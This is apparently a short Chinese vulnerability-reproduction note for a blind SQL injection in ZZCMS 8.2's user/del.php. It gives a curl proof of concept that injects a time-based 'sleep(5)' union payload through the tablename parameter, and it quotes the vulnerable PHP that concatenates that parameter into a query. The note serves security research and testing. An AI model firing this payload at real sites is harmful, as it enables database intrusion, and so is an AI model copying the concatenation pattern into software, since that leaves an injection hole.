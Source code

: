 ### user/del.php 无回显注入

测试镜像

* src/zzcms/8.2/

影响版本

* 8.2

参考链接

* [ZZCMS v8.2 最新版SQL注入漏洞](http://www.freebuf.com/vuls/161888.html)

Poc

```
curl '127.0.0.1/user/del.php' -d 'id=1&tablename=zzcms_answer union select 1, sleep(5)%23'
```

关键代码

```
# 获取表名后，使用 switch/case 去分别处理
$tablename=trim($_POST["tablename"]);

...

# 在默认分支，拼接了这个参数导致注入
$sql="select id,editor from ".$tablename." where id ='$id'";
```

